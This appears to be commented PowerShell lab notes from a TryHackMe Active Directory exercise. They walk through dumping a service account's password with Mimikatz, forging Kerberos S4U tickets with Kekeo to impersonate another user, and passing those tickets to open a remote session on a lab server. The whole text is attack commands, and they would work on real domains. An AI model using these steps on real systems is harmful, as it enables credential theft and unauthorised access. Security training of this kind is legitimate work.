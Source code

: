 ```ps
#output shows 'svcIIS' account has
#'msds-allowedtodelegateto' set for WSMAN and HTTP

#also it is given that there is service
#on THMWRK1 running as svcIIS user

#we can use Mimikatz to dump secrets
C:\Tools\mimikatz_trunk\x64\mimikatz.exe 

#in mimikatz, impersonate system user
token::elevate

#dump secrets from registry hive
lsadump::secrets
#gives password associated with svcIIS

#we can perform kerberos delegation attack now
#using kekeo and mimikatz

#run kekeo
C:\Tools\kekeo\x64\kekeo.exe

#generate TGT to be used to generate tickets for HTTP and WSMAN services
tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@
#gives TGT file

#forge TGS requests for account to be impersonated
#in Tier 1, to access THMSERVER1

#for http
tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc

#for wsman
tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc

#now we have two TGS tickets
#we can exit kekeo and use mimikatz

C:\Tools\mimikatz_trunk\x64\mimikatz.exe

privilege::debug

#import both TGS tickets
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

exit
#exit mimikatz

klist
#verify tickets were imported

#create and enter PSSession on THMServer1
New-PSSession -ComputerName thmserver1.za.tryhackme.loc

Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
#enters session on THMServer1

```